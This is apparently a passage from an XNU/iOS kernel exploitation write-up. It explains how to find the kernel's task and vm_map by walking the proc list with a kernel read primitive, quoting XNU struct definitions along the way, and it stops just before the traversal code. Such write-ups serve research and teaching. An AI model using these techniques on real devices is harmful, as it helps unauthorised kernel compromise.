 #### Kernel's `vm_map` struct

The second pointer we need is the kernel's `vm_map` structure. `vm_map` is another field in the `task` structure. Since we only have our `task` struct, we need to find the kernel's `task` struct. For some reason, `is_task` in the kernel's `ipc_space` struct is `NULL`, so we can't use that. Fortunately for us, the `task` struct has a field, `bsd_info`, that points to the corresponding `proc` struct. We can get the address of our `proc` struct by doing this:

```
uint64_t myproc_kaddr = 0;
EarlyKernelRead64(mytask_kaddr + TASK_BSDINFO_OFFSET, &myproc_kaddr);
```

`struct proc` implements a doubly linked list at the beginning of the structure:

```
struct	proc {
	LIST_ENTRY(proc) p_list;		/* List of all processes. */
	void * 		task;			/* corresponding task (static)*/
	struct	proc *	p_pptr;		 	/* Pointer to parent process.(LL) */
	pid_t		p_ppid;			/* process's parent pid number */
	pid_t		p_pgrpid;		/* process group id of the process (LL)*/
	uid_t		p_uid;
	gid_t		p_gid;
	uid_t		p_ruid;
	gid_t		p_rgid;
	uid_t		p_svuid;
	gid_t		p_svgid;
	uint64_t	p_uniqueid;		/* process unique ID - incremented on fork/spawn/vfork, remains same across exec. */
	uint64_t	p_puniqueid;		/* parent's unique ID - set on fork/spawn/vfork, doesn't change if reparented. */
	lck_mtx_t 	p_mlock;		/* mutex lock for proc */
	pid_t		p_pid;			/* Process identifier. (static)*/
	
	...
};
```
<sup>*[xnu-4903.221.2/bsd/sys/proc_internal.h](https://github.com/apple/darwin-xnu/blob/a449c6a3b8014d9406c2ddbdc81795da24aa7443/bsd/sys/proc_internal.h#L194)*</sup>

`LIST_ENTRY(proc) p_list;` is a [macro](https://github.com/apple/darwin-xnu/blob/a449c6a3b8014d9406c2ddbdc81795da24aa7443/bsd/sys/queue.h#L436) that expands to this:

```
struct {
	struct proc *le_next;	/* next element */
	struct proc **le_prev;	/* address of previous next element */
} p_list;
```

We're able to iterate through all the `proc` structs in the system by reading these pointers. All we have to do to find the kernel's `proc` struct is to loop backward through the list of processes. Interestingly enough, we don't touch `le_prev` to do this, we read `le_next`. Yes, it's counterintuitive, but if it works, it works. For every `proc` struct we encounter, we'll read its `p_pid` field to check if it's `0`. If it is, we found the kernel's `proc` struct. Here's the code to do that:
